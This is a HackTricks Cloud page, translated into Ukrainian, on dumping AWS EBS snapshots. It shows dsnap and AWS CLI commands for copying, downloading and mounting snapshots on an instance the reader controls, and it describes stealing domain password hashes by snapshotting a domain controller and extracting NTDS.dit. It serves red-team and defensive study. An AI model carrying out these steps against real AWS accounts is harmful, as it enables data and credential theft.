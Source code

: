 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Перевірка знімка локально
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Зверніть увагу**, що `dsnap` не дозволить вам завантажити публічні знімки. Щоб обійти це, ви можете зробити копію знімка у своєму особистому акаунті та завантажити його:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Для отримання додаткової інформації про цю техніку перегляньте оригінальне дослідження в [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Ви можете зробити це з Pacu, використовуючи модуль [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Перевірка знімка в AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Підключіть його до EC2 VM під вашим контролем** (він має бути в тому ж регіоні, що й копія резервної копії):

Крок 1: Необхідно створити новий об'єм вашого вибраного розміру та типу, перейшовши до EC2 –> Об'єми.

Щоб виконати цю дію, виконайте такі команди:

* Створіть об'єм EBS для підключення до EC2 екземпляра.
* Переконайтеся, що об'єм EBS та екземпляр знаходяться в одній зоні.

Крок 2: Виберіть опцію "підключити об'єм", клацнувши правою кнопкою миші на створеному об'ємі.

Крок 3: Виберіть екземпляр з текстового поля екземпляра.

Щоб виконати цю дію, використовуйте наступну команду:

* Підключіть об'єм EBS.

Крок 4: Увійдіть до екземпляра EC2 і перелікуйте доступні диски, використовуючи команду `lsblk`.

Крок 5: Перевірте, чи є дані на об'ємі, використовуючи команду `sudo file -s /dev/xvdf`.

Якщо вивід вище наведеної команди показує "/dev/xvdf: data", це означає, що об'єм порожній.

Крок 6: Форматуйте об'єм у файлову систему ext4, використовуючи команду `sudo mkfs -t ext4 /dev/xvdf`. Альтернативно, ви також можете використовувати формат xfs, використовуючи команду `sudo mkfs -t xfs /dev/xvdf`. Зверніть увагу, що ви повинні використовувати або ext4, або xfs.

Крок 7: Створіть каталог на ваш вибір для підключення нового об'єму ext4. Наприклад, ви можете використовувати назву "newvolume".

Щоб виконати цю дію, використовуйте команду `sudo mkdir /newvolume`.

Крок 8: Підключіть об'єм до каталогу "newvolume", використовуючи команду `sudo mount /dev/xvdf /newvolume/`.

Крок 9: Перейдіть до каталогу "newvolume" і перевірте дисковий простір, щоб підтвердити підключення об'єму.

Щоб виконати цю дію, використовуйте такі команди:

* Перейдіть до `/newvolume`.
* Перевірте дисковий простір, використовуючи команду `df -h .`. Вивід цієї команди має показувати вільний простір у каталозі "newvolume".

Ви можете зробити це з Pacu, використовуючи модуль `ebs__explore_snapshots`.

## Перевірка знімка в AWS (використовуючи cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Будь-який користувач AWS, який має дозвіл **`EC2:CreateSnapshot`**, може вкрасти хеші всіх доменних користувачів, створивши **знімок Контролера домену**, змонтувавши його на екземплярі, яким вони керують, і **експортувавши NTDS.dit та SYSTEM** реєстровий файл для використання з проектом secretsdump від Impacket.

Ви можете використовувати цей інструмент для автоматизації атаки: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) або ви можете використовувати одну з попередніх технік після створення знімка.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
